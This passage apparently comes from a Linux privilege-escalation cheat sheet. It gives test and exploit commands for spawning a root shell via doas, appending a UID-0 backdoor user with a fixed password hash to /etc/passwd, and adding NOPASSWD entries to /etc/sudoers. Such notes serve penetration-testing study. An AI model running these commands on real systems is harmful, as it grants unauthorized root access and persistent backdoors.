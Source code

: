 **Exploit**
Example with `doas` executable
```bash
doas -u root /bin/bash
```

<br>

## Edit `/etc/passwd`
> `/etc/passwd` file contains info about user accounts on the machine. Adding an entry (a line) to this file allows us to create a custom user with predefined UID and GID.

**Test**
```bash

```

**Exploit**
Create a user `chronos` with password `chronos`. User and group ID are `0`.
```bash
echo 'chronos:$1$d7venmwO$dSO1eZg6GvVd/ihQLdb6K/:0:0::/root:/bin/bash' >> /etc/passwd
```

<br>

## Append user to sudoers
> `/etc/sudoers` file defines the users who can run commands as `root`. If we can modify it, we can give our current user privileged permissions.

**Test**
```bash
sudo visudo -f /etc/sudoers
```

**Exploit**
Add user to `/etc/sudoers`
```bash
echo 'username        ALL=(ALL)        NOPASSWD: ALL' >> /etc/sudoers
```
Possibilities:
```bash all commands
chronos ALL=(ALL:ALL) ALL
chronos ALL=(root) NOPASSWD: ALL
```
```bash specific command only
chronos ALL=(root) NOPASSWD: /usr/bin/command
```

<br>

## SUDO permissions with preserved environment
> You need to set the PATH variable when running the command

**Test**
```bash
sudo -l
```
```plain
(root) SETENV: NOPASSWD: command
```
